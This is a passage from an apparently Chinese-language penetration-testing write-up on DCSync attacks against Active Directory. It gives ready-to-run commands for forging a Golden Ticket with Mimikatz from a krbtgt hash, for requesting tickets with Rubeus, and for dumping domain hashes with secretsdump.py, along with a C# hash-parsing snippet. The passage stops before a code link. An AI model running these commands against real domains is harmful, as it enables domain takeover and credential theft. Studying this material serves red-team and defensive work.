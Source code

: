 ```
string hex = "D4FE97B4FD50367C7AE8FEF781F27A2E";
var inputByteArray = new byte[hex.Length / 2];
for (var x = 0; x < inputByteArray.Length; x++)
{
    var i = Convert.ToInt32(hex.Substring(x * 2, 2), 16);
    inputByteArray[x] = (byte)i;
}
```

## 0x04 利用思路
---

### 1.在域控制器上执行

0x03中提到的工具均可以

### 2.在域内主机上执行

#### (1)Mimikatz

有以下两种利用思路：

- 导入票据，执行DCSync
- 利用Over pass the hash启动脚本，脚本执行DCSync

#### (2)secretsdump.py

直接执行即可

#### (3)C Sharp实现

首先需要生成票据

有以下两种利用思路：

1. 拿到krbtgt用户的hash，在本地使用Mimikatz生成Golden ticket

命令示例：

```
mimikatz "kerberos::golden /user:Administrator /domain:TEST.COM /sid:S-1-5-21-254706111-4049838133-2416123456 /krbtgt:D4FE97B4FD50367C7AE8FEF781F27A2E /ticket:test.kirbi"
```

2. 拿到高权限用户，使用[Rubeus](https://github.com/GhostPack/Rubeus)发送请求获得ticket

命令示例：

```
Rubeus.exe asktgt /user:administrator /password:123456 /outfile:test.kirbi
Rubeus.exe asktgt /user:administrator /rc4:D4FE97B4FD50367C7AE8FEF781F27A2E /outfile:test.kirbi
```

接着导入票据

可以选择SharpTGTImporter.cs，代码已上传至github，地址如下：
